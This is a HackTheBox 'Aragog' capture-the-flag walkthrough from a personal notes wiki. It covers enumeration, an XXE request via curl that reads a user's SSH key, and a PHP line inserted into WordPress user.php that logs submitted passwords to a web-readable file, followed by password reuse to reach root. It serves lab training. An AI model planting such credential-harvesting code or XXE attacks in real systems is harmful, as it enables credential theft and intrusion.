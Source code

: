 1. First you've to enumerate the machine with [Nmap](</General Info/Tools/Enumeracion/Nmap.md>) and also use [GoBuster](</General Info/Tools/Enumeracion/GoBuster>) and [Wfuzz](</General Info/Tools/Enumeracion/Wfuzz.md>) in order to find some files of the page.
2. After doing all this enumeration you'll find a `test.txt` file in the ftp with the anon user listed in Nmap. Another thing you could find is the file hosts.php with the [Wfuzz](</General Info/Tools/Enumeracion/Wfuzz.md>) tool. Once you've this two things you can combine them with the usage of curl to send a payload via a [XXE - XML External Entities Injection](</General Info/Tecnologias Web/Ataques/XXE - XML External Entities Injection.md>). The command you've to run is `curl -s -X POST -d @test.xml http://aragog.htb/hosts.php` in order to execute the curl tool in Silent mode, with the POST method and sending the content of the test.xml file as the body. The code that you should have in the test.xml file is in the [Aragog - Code](</HTB Machines/Code & Data/Aragog - Code.md>) resource.
3. Once you've sent that payload you will get the id_rsa of the user __Florian__
4. Now that you've used the id_rsa to get into the system via [SSH](</General Info/Tools/SSH.md>), you have to do some [Things to enumerate (Machine)](</General Info/Enumeration/Things to enumerate (Machine).md>). The thing that will pay off at the end is the usage of Pspy or the coding of a procmon tool to look for processes that run at a certain amount of time. The code can be seen in [Aragog - Code](</HTB Machines/Code & Data/Aragog - Code.md>).
5. Once you've done this kind of enumeration you'll come acorss a certain tool called wp-login.py that's being executed regularly. Only the name gives us the idea that the script is making smth log into an account. Because of this behaviour and the fact that you've control over the Wordpress root directory you can intercept the credentials that are being sent by modifing the file user.php to make the login script create a file with the credentials that are being used to login the user in. The only thing that you've to do is add the following line in the part that looks if the credentials are being sent:
```
if (!empty($_POST['pwd']))
	$credentials['user_password'] = $_POST['pwd']
	
	file_put_contents("/var/www/html/dev_wiki/log.txt", $_POST['log'] . " : " . $_POST['pwd'], FILE_APPEND)  # INSERTED MALICIOUS CODE
```
The main purpose of this added line is to create a file called __log.txt__ that contains the user and password sent via the POST method with the script called `wp-login.py`.

6. Now that you've all set up the only thing that's left is wait. You can do it by running the command `watch -n 1 curl -s -X GET "http://aragog.htb/dev_wiki/log.txt"` and looking for the content of the file until it changes into the credentials of the Administrator user of the page.
7. The last thing of the machine is, because the user has the bad habit of reusing the credentials, issue the command `su root` and enter the password obtained from the previous exploit. Now you can freely go to `/root` and cat out the __root.txt__ file and go to `/home/florian` and also cat out the __user.txt__ file.

### Things to have in mind

- Sometimes when you compromise a machine that runs Wordpress, you can go on and look for the file __wp-config.php__ in the root wordpress directory and find valid credentials for the databases running on the server. 